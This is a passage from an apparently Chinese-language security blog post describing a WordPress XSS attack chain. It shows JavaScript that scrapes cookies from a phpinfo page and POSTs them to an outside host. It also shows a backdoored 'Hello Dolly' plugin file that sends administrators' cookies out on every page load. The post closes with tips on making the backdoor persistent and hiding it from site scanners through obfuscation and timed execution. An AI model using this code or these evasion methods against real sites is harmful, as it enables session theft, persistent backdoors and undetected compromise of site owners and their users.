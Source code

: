 ```
		c.open('GET', p_url, 0);
		c.send();

		sss = /HTTP_COOKIE <\/td><td class="v">[\w=;% \-\+\s]+<\/td/.exec(c.responseText)

		// 将获取到的cookie传出
		var d = new XMLHttpRequest(); 
		d.open('POST', 'http://xxx', true); 
		d.setRequestHeader("Content-type","application/x-www-form-urlencoded");
		d.send('cookie='+sss)
   }
}
```

![image.png-56.9kB][8]

成功收到了来自目标的cookie。

虽然我们成功的收到了目标的cookie，但是这个cookie可能在一段时间之后就无效了，那么怎么能把这样的一个后门转化为持久的攻击呢。这里我还是建议使用hello holly这个插件。

这个插件本身是一个非常特殊的插件，在启用情况下，这个插件会被各个页面所包含，但细心的朋友可能会发现，在前面的攻击过程中，由于我们不遵守插件的页面格式，页面内容被替换为`<?php phpinfo();?>`的过程中，也同样的不被识别为插件，我们需要将页面修改为需要的页面格式，并插入我们想要的代码。

当hello.php为这样时，应该是最简页面内容
```
<?php
/*
Plugin Name: Hello Dolly
Version: 1.6
*/
```

那么我们来构造完整的攻击请求

1、构造xss攻击链接->管理员点击->修改插件目录的hello.php->启动hello, holly插件->访问首页->触发攻击
2、hello.php页面直接获取cookie发出。

hello.php
```
<?php
/*
Plugin Name: Hello Dolly
Version: 1.6
*/
?>
<script>
var d = new XMLHttpRequest(); 
d.open('POST', 'http://xxx', true); 
d.setRequestHeader("Content-type","application/x-www-form-urlencoded");
d.send('cookie=<?php echo urlencode(implode('#', $_COOKIE))?>');
</script>
```

这部分的代码看似简单，实际上还有很大的优化空间，就比如：
1、优化执行条件：通过和远控（xss平台）交互，获取时间戳，和本地时间做对比，如果时间不符合要求不执行，避免管理员在后台的多次访问导致xss平台爆炸。
2、通过代码混淆等方式，将代码混淆入原本的代码中，避免安全类防御工具在站内扫面时发现此页面。


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png